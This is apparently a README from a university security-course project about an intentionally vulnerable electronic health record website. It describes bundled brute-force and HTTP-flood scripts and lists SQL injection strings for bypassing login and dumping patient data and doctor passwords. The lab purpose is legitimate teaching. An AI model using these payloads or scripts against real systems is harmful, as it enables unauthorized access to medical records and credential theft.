 # ELEC0138 Security and Privacy 23/24 Group_S

## Description
This EHR website base version folder contains the original version of the web application. It suffers from brute force attack, DOS attack and SQL injection attacks. 

### Three attacks to be implemented in this application:  
1. Brute force attack
2. Dos attack (HTTP flooding)
3. SQL injection attack

## Program structure
-- EHR website base version
```
- instance
- templates
- app.py
- bruteforce.py
- dictionary.txt
- dos.py
- README.md
```
- `instance/`: Contain the database file that stores the information of patients and doctors.
- `templates/`: The original version of the EHR website without denfence.
- `app.py`:  Set up the web application using Flask and SQLAlchemy, including user authentication features and database interactions.
- `bruteforce.py`: The file to implement brute force attack to obtain the password.
- `dictionary.txt`: Contains the possible passwords to be tested by bruteforce.py file.
- `dos.py`: The file to implement dos attack to crash the website.
- `README.md`:The README file for the applications in the original website.

## Program run instruction
1. Clone the repository
2. Create a new Python env with version 3.9 and install the dependencies with requirement.txt
3. Navigate to this folder and run the app.py via the "flask run" instruction to open the website.
4. Run bruteforce.py to run the brute force.
5. Run dos.py to run the dos attack.
6. Use SQL injection inputs below to do SQL injection attacks

### SQL injection inputs
Copy the content within <<>>

Login bypass:
1. Username and password  <<' OR '1'='1>>
2. only use username <<yaoming' -->>   without knowing the password
3. use username <<admin' UNION SELECT * FROM users -->> without knowing the password

Patient search (after login):
1. <<' OR '1'='1>>: get all patient data without name
2. <<UNION SELECT password, username FROM Doctor -->>:  get all usernames
3. <<UNION SELECT username, password FROM Doctor -->>: get all user passwords

 

